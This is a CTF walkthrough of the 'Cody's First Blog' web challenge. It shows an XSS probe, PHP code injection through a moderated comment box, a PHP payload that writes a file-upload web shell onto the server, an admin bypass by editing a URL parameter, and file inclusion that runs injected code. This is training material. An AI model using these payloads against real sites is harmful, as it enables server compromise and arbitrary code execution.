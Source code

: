  CTF Walkthrough: Cody's First Blog (Web, Moderate)

 Introduction
Hey everyone! I'm Divyanshu Kumar, a cybersecurity enthusiast. In this post, I’ll walk you through my experience solving the Cody's First Blog CTF challenge. This is part of my series where I explore cybersecurity concepts through CTF (Capture The Flag) walkthroughs.

This challenge required a mix of web exploitation techniques like PHP payload execution, source code analysis, and local file inclusion (LFI). Let's break it down step by step!

---

 FLAG 0: PHP Code Injection via Comment Box

 Finding the Vulnerability
Initially, I attempted several different approaches without success. After analyzing the hints, I realized that the comment box was the key.

I started testing Cross-Site Scripting (XSS) payloads like:
```html
<img src=x onerror=alert("hacked")>
```
This confirmed that my comment was being stored and awaiting approval, which hinted at admin involvement.

Since the platform was PHP-based, I decided to try injecting PHP code. I submitted a comment containing PHP code, and once it was approved, my code executed, revealing the first flag!

```php
<?php echo 'FLAG0'; ?>
```

 Trick Disclaimer
I also used Burp Suite and utilized Intruder (Sniper attack) with multiple PHP payloads to obtain the flag without admin approval.

 Payload Used:
```php
$file = fopen ("upload2.php", "w"); echo fwrite($file, '<html><form action="upload2.php" method="post" enctype="multipart/form-data">Select image to upload; <input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></html><?php if( isset ($_POST["submit"])) { $file_name = $_FILES["fileToUpload"]["name"]; $file_tmp_name = $_FILES["fileToUpload"]["tmp_name"]; if (move_uploaded_file($file_tmp_name, "./" . $file_name)) { echo "ok"; } } ?>'); fclose($file);
```
Using this technique, I successfully bypassed admin approval and retrieved the flag directly.


![image](https://github.com/user-attachments/assets/7c96a5ac-7eec-4c93-b7a1-0a81d89de35d)


---

 FLAG 1: Admin Authentication Bypass

 Finding the Vulnerability
To progress, I examined the source code of the index page and discovered a hidden comment:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```
This suggested the presence of an admin authentication page.

 Exploitation
Navigating to `?page=admin.auth.inc`, I reached an admin login page. I attempted various default credentials without success. Using GoBuster, I enumerated directories and found:
```
/.hta (403)
/.htaccess (403)
/.htpasswd (403)
/index.php (200)
/php.ini (200)
/posts (301)
/server-status (403)
```

Although accessing `php.ini` was possible, it didn’t reveal anything useful. At this point, I noticed the admin page URL structure:
```
?page=admin.auth.inc
```
Since authentication is usually enforced here, I tested removing 'auth' from the filename:
```
?page=admin.inc
```
And just like that—I was logged in as admin! and at the end of page got the flag

Now, I had the power to approve comments, which meant I could approve my previous PHP code injection and use it in the next step.


![Screenshot 2025-03-07 153901](https://github.com/user-attachments/assets/9208dc7f-9136-4e72-b8fa-bb6a93181389)


---

 FLAG 2: Executing Approved PHP Code via LFI

 Finding the Vulnerability
At this stage, we knew:
✅ We could submit PHP code as a comment.
✅ We could approve it as an admin.
✅ The server had local file inclusion (LFI) enabled.

Since the server couldn’t communicate externally, I had to execute my code locally.

 Exploitation
By visiting:
```
?page=http://localhost/index
```
I observed that previously approved PHP comments were executed. This meant I could inject a command to read `index.php` and extract the final flag.

 Proof of Concept
I submitted a comment containing:
```php
<?php echo file_get_contents('index.php'); ?>
```
After approving the comment and navigating to `localhost/index`, I checked the developer tools (F12) and saw that my PHP code had executed successfully, revealing FLAG2.



![Screenshot 2025-03-07 174325](https://github.com/user-attachments/assets/9697dd68-16b2-4a7d-bdf9-1e12a4783ccf)

---

 Conclusion
This challenge reinforced key web exploitation concepts:
✅ PHP code injection via comment boxes.
✅ Authentication bypass by manipulating URL structures.
✅ Executing arbitrary code through LFI.

CTF challenges like this are a great way to develop real-world security skills. Stay tuned for more walkthroughs, and let me know if you have any insights or questions!

Happy hacking! 🔥

